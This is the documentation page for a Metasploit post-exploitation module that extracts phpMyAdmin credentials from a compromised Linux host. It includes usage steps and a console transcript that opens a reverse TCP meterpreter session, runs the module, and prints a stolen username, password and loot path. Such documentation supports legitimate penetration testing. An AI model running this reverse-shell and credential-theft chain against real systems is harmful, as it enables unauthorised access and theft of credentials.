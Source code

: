 ## Description

This post module gathers PhpMyAdmin Creds from target Linux machine.

* https://www.phpmyadmin.net/downloads/ [Download URL]

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use post/linux/gather/phpmyadmin_credsteal`
4. Do: `set SESSION [SESSION]`
5. Do: `run`

## Scenarios

```
msf > use multi/handler
msf exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444 
[*] Sending stage (816260 bytes) to 192.168.37.226
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.226:34880) at 2018-09-06 08:49:52 -0500

meterpreter > background
[*] Backgrounding session 2...
msf exploit(multi/handler) > use post/linux/gather/phpmyadmin_credsteal 
msf post(linux/gather/phpmyadmin_credsteal) > set session 2
session => 2
msf post(linux/gather/phpmyadmin_credsteal) > run


PhpMyAdmin Creds Stealer!

[+] PhpMyAdmin config found!
[+] Extracting creds
[+] User: admin
[+] Password: acoolpassword
[*] Storing credentials...
[+] Config file located at /Users/space/.msf4/loot/20180907081056_default_192.168.37.226_phpmyadmin_conf_580315.txt
[*] Post module execution completed
msf post(linux/gather/phpmyadmin_credsteal) > 

```
